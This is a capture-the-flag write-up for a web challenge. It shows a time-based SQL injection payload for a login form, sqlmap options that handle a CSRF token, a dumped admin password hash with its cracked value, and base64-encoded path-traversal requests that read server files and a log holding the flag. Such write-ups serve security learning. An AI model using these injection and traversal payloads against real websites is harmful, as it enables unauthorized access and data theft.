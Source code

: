 # Writeup for hackme

> Solves: 48
> 
> Hack me, please

The website contain only login form, without any other suspected content, so first impulse, sql injection.

![Screenshot_1.png](Screenshot_1.png)

We have seen only one returned value `User Name or Password incorrect` if sql query was correct. Checked time based SQLi in login input `a' OR if(1=1, sleep(10), false) OR 'a` positive, because execute this taken ~10 seconds.
We had assumed that was blind SQLi. (After CTF, another teams has shown that it was simple SQLi, blindSQLi was not necessary)

We have not had a lot of time, so we use sqlmap. Form had csrf token `<input type='hidden' name='user_token' value='40dbd5c24bcba5a579557884b60e50d8' />`, but that was not a problem for sqlmap with two extra params `--csrf-token="user_token" --csrf-url="http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/"`

In a few seconds, we got, what we need. 

```
Database: hack.me
Table: user
[1 entry]
+--------+-----------+----------+----------------------------------+
| userid | sessionid | username | password                         |
+--------+-----------+----------+----------------------------------+
| 1      | aaa       | admin    | 26a340b11385ebc2db3b462ec2fdfda4 |
+--------+-----------+----------+----------------------------------+
```

MD5 existed in web databases

![Screenshot_2.png](Screenshot_2.png)

After login for `admin` `catchme8`, unfortunately not came out flag, but interesting dashboard.

![Screenshot_3.png](Screenshot_3.png)

We did notice with great interest, that one menu link `help.pdf` had this route: `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=aGVscC5wZGY`. `aGVscC5wZGY` after base64 decode was `help.pdf`, looked like LFI. 

We encode `../index.php` to base64 `Li4vaW5kZXgucGhw`, open `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=Li4vaW5kZXgucGhw`, and get source of `index.php` into downloaded .pdf file.

One line in `index.php` was `shpaMessagePush("error: saved in sensitive_log_881027.txt");`. Interestingly, we again encode `../sensitive_log_881027.txt` to `Li4vc2Vuc2l0aXZlX2xvZ184ODEwMjcudHh0` and get this file by url `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=Li4vc2Vuc2l0aXZlX2xvZ184ODEwMjcudHh0`. Downloaded file contained FLAG
